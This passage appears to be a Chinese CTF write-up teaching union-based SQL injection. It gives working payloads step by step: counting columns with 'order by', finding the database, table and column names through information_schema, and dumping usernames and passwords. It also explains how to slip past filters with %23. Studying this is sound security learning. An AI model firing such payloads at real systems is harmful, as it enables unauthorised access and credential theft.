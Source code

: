 输入1‘ or 1=1 order by 1 #

1‘ or 1=1 order by 2 #

1‘ or 1=1 order by 3 #  ……当查询报错时，即有（n-1）列

order by语句是对第几列句子进行排序

##### 4.确定显示字段的顺序

输入 1’ union select 1,2 #

union 联合查询—将两个查询到的表放在一起

##### 5.获得当前数据库名

输入1' union select 1,database( ) #

database函数即获取当前数据库

##### 6.获取数据库中表名，注出表名

注出表名：
1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()) %23

补：这里#使用URL编码格式：% + 十六进制数，目的是防止被过滤，在本题目中若使用 # 或 --+是无法检测出字段数量的，所以在以后的sql注入题目中，最好使用%23。

##### 7.获取表中字段名

方法：输入1' union select 1,group_concat(column_name) from information_schema.columns where table_name='表名' #

information_schema——相当于图书馆管理员，不会的可以问他，确切的说是信息数据库

当不用group_concat时，当题目只输出一行时，而union是按union顺序一次显示，而我们查询的最少是第二个，因此可以让第一个表为空，即将其改为

1' and 1=2 union select 1,group_concat(column_name) from information_schema.colums where table_name='users' #

##### 8.获取字段信息

1' union select 1,2,(select group_concat(id,username,password) from l0ve1ysq1) %23